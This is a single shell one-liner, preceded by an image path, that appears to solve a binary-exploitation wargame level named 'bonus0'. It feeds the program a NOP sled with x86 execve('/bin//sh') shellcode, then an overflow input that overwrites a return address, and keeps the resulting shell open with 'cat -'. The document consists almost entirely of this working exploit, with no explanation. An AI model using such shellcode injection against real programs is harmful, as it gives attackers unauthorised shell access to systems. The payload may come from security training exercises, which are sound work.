 (python -c 'print "\x90" * 100 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"' ; python -c 'print "A" * 9 + "\xc0\xe6\xff\xbf" + "B" * 7'; cat -) | ./bonus0